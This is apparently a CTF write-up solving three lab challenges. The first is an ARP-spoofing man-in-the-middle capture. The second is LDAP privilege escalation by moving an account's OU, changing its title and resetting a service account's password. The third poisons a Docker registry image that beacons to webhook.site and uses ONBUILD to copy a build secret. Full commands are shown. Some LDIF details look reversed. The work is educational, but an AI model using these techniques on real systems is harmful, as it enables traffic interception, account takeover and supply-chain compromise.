



### Hiding in your WiFi

#### Description

```
I'm on your network. There is a client at 10.10.10.20 that keeps fetching something from the web server at 10.10.10.10, and the server only talks to the client.

You are 10.10.10.66. You have arpspoof and tcpdump.

```

#### Analysis

The challenge creates an instance with arpspoof and tcpdump. After connecting to remote instace using ncat `ncat --ssl hiding-in-your-wifi-25e0d6949410.chall.nnsc.tf 1337`, we can find file **entrypoint.sh** file.

```bash
#!/bin/sh
set -eu

role="$1"

if [ "$role" = shell ]; then
    export HOME=/home/player
    exec capsh --keep=1 --user=player \
        --inh=cap_net_raw,cap_net_admin --addamb=cap_net_raw,cap_net_admin -- -i
fi

POD_IP="${POD_IP:-$(hostname -i)}"

peers=""
while read -r name addr hwaddr; do
    if [ "$name" = "$role" ]; then
        ip=$addr mac=$hwaddr
        continue
    fi
    until peer_ip=$(getent -s files hosts "$name" | cut -d' ' -f1) && [ -n "$peer_ip" ]; do
        sleep 1
    done
    peers="$peers$hwaddr $peer_ip
"
done <<EOF
server   10.10.10.10 02:00:00:00:00:10
victim   10.10.10.20 02:00:00:00:00:20
attacker 10.10.10.66 02:00:00:00:00:66
EOF

ip link add vxlan0 type vxlan id 42 dstport 4789 ttl 64 nolearning \
    dev eth0 local "$POD_IP"
ip netns add lan
ip link set vxlan0 netns lan
ip -n lan link set vxlan0 name eth0 address "$mac"
ip -n lan addr add "$ip/24" dev eth0
ip -n lan link set eth0 up
ip -n lan link set lo up

echo "$peers" | while read -r hwaddr peer_ip; do
    if [ -z "$hwaddr" ]; then continue; fi
    ip netns exec lan bridge fdb replace "$hwaddr" dev eth0 dst "$peer_ip"
    ip netns exec lan bridge fdb append 00:00:00:00:00:00 dev eth0 dst "$peer_ip"
done

case "$role" in
    server)
        exec ip netns exec lan nginx -g 'daemon off;'
        ;;
    victim)
        exec ip netns exec lan sh -c 'while :; do
            curl -s -o /dev/null http://10.10.10.10/flag.txt
            sleep 5
        done'
        ;;
    attacker)
        ip netns exec lan sh -c '
            mount -o remount,rw,bind /proc/sys
            echo 1 > /proc/sys/net/ipv4/ip_forward
            echo 0 > /proc/sys/net/ipv4/conf/all/send_redirects'
        exec socat TCP-LISTEN:1337,fork,reuseaddr,max-children=8 \
            EXEC:'ip netns exec lan /entrypoint.sh shell',pty,stderr,setsid,sigint,sane
        ;;
esac
```

and the machine's /etc/hosts file

```bash
10.0.135.133	attacker-78b499fdff-qrv6x

# Entries added by HostAliases.
172.20.146.162	server
172.20.114.96	victim
172.20.162.78	attacker
```

Analysis from the script 

1. Three distinct ips to simulate attacker, victim and server within **lan** namespace.
2. A VXLAN link is created and attached to **lan** namespace with mac address learning disabled.
3. FDB forwarding through VTEP - adds mac addr `02:00:00:00:00:20` routing to 172.20.114.96 and `02:00:00:00:00:10` to 172.20.146.162 and also adds a wildcard mac address routes to those ips. Below command output describes the bridge created.
4. finally the commands to run for specific roles
 - server: it starts the server is lan namepsace
 - victim: curls server for every 5 seconds using lan namespace address[10.10.10.10] and not the actual ip.
 - attacker: starts a cap shell from the beginning of the script with ip forwarding enabled which is necessary for arpsoof to work.

```
player@attacker-78b499fdff-qrv6x:/bin$ bridge fdb show
bridge fdb show
02:00:00:00:00:20 dev eth0 dst 172.20.114.96 link-netnsid 0 self permanent
00:00:00:00:00:00 dev eth0 dst 172.20.146.162 link-netnsid 0 self permanent
00:00:00:00:00:00 dev eth0 dst 172.20.114.96 link-netnsid 0 self permanent
02:00:00:00:00:10 dev eth0 dst 172.20.146.162 link-netnsid 0 self permanent
```


#### Solution

These details are analyzed after the CTF ended to understand how well the lab was created. During CTF, it is clear that attacker should spoof

 - server that he is victim `arpspoof -i eth0 -t 10.10.10.20 10.10.10.10`.
 - victim that attacker is server `arpspoof -i eth0 -t 10.10.10.10 10.10.10.20`.

since ip forwarding is enabled traffic flows from victim to attacker and from attacker to server without any modification. Now we can dump the tcp traffic using tcpdump.

```bash
tcpdump -i eth0 -w /tmp/a.pcap
```

after few seconds we can stop the capture and read the pcap file and we can find plaintext traffic data in the dump

```bash
tcpdump -r /tmp/a.pcap -A 'tcp
```

{:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=70%"}


### Self-Service

#### Description

```
You are our brand new contractor at NNS corp! You have been given a user account: ereid:Summer2026. Welcome on board!

SSH is exposed over TLS:
ssh -o ProxyCommand='openssl s_client -quiet -connect %h:%p' ereid@HOST -p 1337
```

#### Analysis

After connecting with given password for user ereid in SSH, we are inside windows powershell. Only few binaries are present and most of them are LDAP  tools. From the initial analysis it is clear we have to exploit this LDAP user.

```bash
ldapsearch -x -D 'uid=ereid,ou=contractors,dc=corp,dc=nns' -W '(objectClass=*)'

```

This query displays all objectclass and attributes associated with the object. these are some important findings 

 - dn: uid=ops,ou=staff,dc=corp,dc=nns : looks like service account as this is mentioned in GECOS field `Operations service account (backup/restore on srv2)`
 - ereid user is member of **vpn-users** and  **onboarding-agents** groups. 

#### Solution

Initially I was stuck here and couldn't proceed furhter, but once the CTF ends the creator shared the way to solve this in discord. the solution is to modify ldap of user ereid to staff.

```bash
printf 'dn: uid=ereid,ou=staff,dc=corp,dc=nns\nchangetype: modrdn\nnewrdn: uid=ereid\nnewsuperior: ou=contractors,dc=corp,dc=nns' >move-ereid.ldif 

ldapmodify -x -D 'uid=ereid,ou=contractors,dc=corp,dc=nns' -W -f move-ereid.ldif
```

 - After modifying OU of the user, we can inspect LDAP attributes again to find out that description of **helpdesk** group 

```bash
ldapsearch -x -D 'uid=ereid,ou=staff,dc=corp,dc=nns' -W '(cn=helpdesk)'
...
description: First-line IT support. Members are provisioned automatically from
  HR attributes.
...
``` 

 - So the next step is to modify specific attributes to join helpdesk group. All the helpdesk user has same title in their attributes, so changing it for ereid user.

```bash
printf '%s\n' 'dn: uid=ereid,ou=staff,dc=corp,dc=nns' 'changetype: modify' 'replace: title' 'title: Platform Engineer' > title.ldif
ldapmodify -x -D 'uid=ereid,ou=staff,dc=corp,dc=nns' -W -f title.ldif
```

 - Once the attribute is changed, we are automatically added to helpdesk group. we can change ops service account password.

```bash
printf '%s\n' 'dn: uid=ops,ou=staff,dc=corp,dc=nns' 'changetype: modify' 'replace: userPassword' 'userPassword: Summer2026' > password.ldif
ldapmodify -x -D 'uid=ereid,ou=staff,dc=corp,dc=nns' -W -f password.ldif
```

 - After new password is set we can ssh into srv2 server. 

```bash
cat /etc/hosts
...
172.20.73.162	srv2

ssh ops@srv2
ops@srv2-586969c5bb-6hqsx:~$ ls
flag.txt
ops@srv2-586969c5bb-6hqsx:~$ cat flag.txt 
NNS{a_J0B_71t13_is_n07_aN_aCc35s_c0n7R01_b0UNDarY_4nD_4pp4r3n71y_tH3Re_4R3_4ctu4l_oR65_tH47_Do_stUpid_sH17_1ike_this}
```

{:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=70%"}


### The Builder

#### Description

```
People have been complaining about how hard it is to create container images. We took this opportunity to build a SaaS to build ready-to-deploy sites!
```

#### Analysis

We are given web server and docker image registry instance. From the website, we can add HTML pages and we will get docker image which we can pull and build container from it.

The docker image step involves,

 - Base debian image named as theme is pulled.
 - [secret mount](https://docs.docker.com/build/building/secrets/#secret-mounts) is mounted from machine where the image is created and the content is copied to /flag.txt in the theme image.
 - Page image is pulled from its local registry as content0 which contains our HTML site contents.
 - And finally a slim nginx container is pulled from chainguard as site. The theme.css and the saved html files are added inside this image and pushed to challenge's docker image registry.


{:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=70%"}

In the intial analysis I misunderstood that the nginx container image we are provided may contain the flag. But I had challenges debugging the nginx image since it is distroless or more aptly without any shell builtins to debug. Later I used the technique explained (here)[https://iximiuz.com/en/posts/docker-debug-slim-containers/] to export the container and inspect its content. The blog also explains other neat techniques to debug slim containers by mounting utilites with pid namespace inside container 🤯. But as always I wasted lot of time inspecting the nginx container without any progress.

#### Solution

Since the docker registry provided is unauthenticated, we can **pull** or **push** any images. Only the pages and sites created are pushed into the registry but not the theme image where the secret is copied.


```bash
curl https://the-builder-registry-02a28d24aee1.chall.nnsc.tf/v2/_catalog                                                          
{"repositories":["pages","sites/10631f2c50fb","sites/18c5d3a09668","sites/c39782909640","sites/db9da8cbf2b9"]}

curl https://the-builder-registry-02a28d24aee1.chall.nnsc.tf/v2/pages/tags/list
{"name":"pages","tags":["20446622b33c","9c0bf6ca38e8"]}
```

Since the same page images is used whenever the same content is used, we can push a malicious image to docker registry with same image tag. So I created a simple dockerfile.

```Dockerfile
FROM alpine

RUN wget https://webhook.site/
```

creating new image and tagging it with same id as remote image id and pushing it to the registry.

```bash
sudo docker build -t test .
sudo docker tag test:latest the-builder-registry-02a28d24aee1.chall.nnsc.tf/pages:9c0bf6ca38e8
sudo docker push the-builder-registry-02a28d24aee1.chall.nnsc.tf/pages:9c0bf6ca38e8
```

Whenever the same page is used we will get callback in our webhook site. Now this made me fall into another rabbit hole on how to achieve code execution[the code executed will be inside the alpine container we specified] or read contents of flag. But the solution is simple, docker has special instruction (ONBUILD)[https://docs.docker.com/reference/dockerfile/#onbuild] which executes instruction when building the next image and it supports COPY instruction. The destination is specified as *page* as this is the only content that will copied in final step to the nginx container.

```Dockerfile
FROM alpine

ONBUILD COPY --from=theme /flag.txt /page
```

Pushing, building, pulling and inspecting the poisoned image.

```bash
sudo docker build -t test .

sudo docker tag test:latest the-builder-registry-02a28d24aee1.chall.nnsc.tf/pages:9c0bf6ca38e8

sudo docker push the-builder-registry-02a28d24aee1.chall.nnsc.tf/pages:9c0bf6ca38e8

# after creating new image we can pull the poisoned image from registry
sudo docker pull the-builder-registry-02a28d24aee1.chall.nnsc.tf:443/sites/10631f2c50fb:latest

# inspecting by creating container from image
sudo docker create --name debugger 587bf75a3e61

# export into contents folder
sudo docker export debugger | tar -xC contents
/contents/usr/share/nginx/html $ cat ind.html
NNS{WH0_tHought_th47_thi5_7R1ggeR_wa5_4_g00d_iDea??_w3ll_4nyw4ys_y0u_did_17}
```


